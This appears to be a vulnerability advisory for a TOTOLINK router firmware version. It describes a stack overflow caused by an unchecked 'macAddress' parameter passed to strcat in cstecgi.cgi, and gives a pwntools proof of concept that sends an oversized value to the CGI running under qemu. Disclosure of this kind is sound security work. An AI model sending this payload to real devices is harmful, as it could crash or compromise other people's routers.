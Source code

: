 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/newstpl.html?menu_newstpl=products&id=2
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## Affected version

V4.3.0cu.7647_B20210106

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_0041b448` (at address 0x41b448) gets the json parameter `macAddress` but doesn't check it's length, a stack overflow occurs by calling `strcat` function directly to concatenate it into a local variables on the stack:  

<img src="img/1.png" alt="1.png" style="zoom:50%;" />

As can be seen from the image above, after the parameter `macAddress` is obtained, it is segmented with `":"` and the segmented string is spliced into the local variable local_3c.

## POC 

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setWiFiAclAddConfig",
    "wifiIdx": "0",
    "addEffect": "0",
    "comment": "AAA",
    "macAddress": "A"*0x200 + ":" + "A"*0x100 + ":A:A"
}
data = json.dumps(data)
print(data)

argv = [
    "qemu-mips-static",
    "-L", "./lib",
    "-E", "LD_PRELOAD=./hook.so",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecginew.cgi"
]

a = process(argv=argv)

a.sendline(data.encode())

a.interactive()
```



